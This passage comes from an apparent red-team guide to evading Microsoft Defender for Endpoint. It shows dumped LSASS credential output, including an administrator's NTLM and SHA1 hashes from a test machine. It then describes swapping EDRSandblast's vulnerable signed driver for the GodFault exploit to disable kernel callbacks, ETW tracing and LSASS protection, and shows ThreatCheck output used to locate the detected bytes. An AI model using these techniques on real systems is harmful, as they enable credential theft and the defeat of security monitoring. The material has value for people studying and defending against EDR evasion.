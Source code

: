 ```
Authentication Id : 0 ; 1276576 (00000000:00137aa0)
Session           : Interactive from 1
User Name         : administrator1
Domain            : TestMachine4
Logon Server      : TestMachine4
Logon Time        : 25-08-2023 14:40:22
SID               : S-1-5-21-3554741335-746861664-1298996758-500
        msv :
         [00000003] Primary
         * Username : administrator1
         * Domain   : TestMachine4
         * NTLM     : 1dafe71b6fd9a0e1b68106cd0204eadd
         * SHA1     : 4f91a429b36ec0458422b9f8e83b028a190aff90
         * DPAPI    : 4f91a429b36ec0458422b9f8e83b028a
        tspkg :
        wdigest :
         * Username : administrator1
         * Domain   : TestMachine4
         * Password : (null)
        kerberos :
         * Username : administrator1
         * Domain   : TestMachine4
         * Password : (null)
        ssp :
        credman :
        cloudap :

[...snip...]
```

<div style="page-break-after: always;"></div>

----

# Using Exploits instead of Vulnerable Signed Drivers

## Binary execution against EDR (MDE) - EDRSandblast-GodFault

[EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) is a tool that leverages a vulnerable signed driver (`RTCore64.sys`) to bypass EDR Kernel Routine Callbacks, Object Callbacks, ETW tracing and LSASS protections. It includes both userland and kernelmode techniques  to evade monitoring.

It is possible to perform the same functionality as the vulnerable signed driver using the [GodFault exploit](https://github.com/gabriellandau/PPLFault#godfault).

Compiling and analysing for signatures we find that EDRSandblast is detected.

```
D:\>.\ThreatCheck.exe -f D:\Tools\EDRSandblast.exe -e amsi
[+] Target file size: 328192 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x501FD
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
```

[+]: Shellcode located at c7160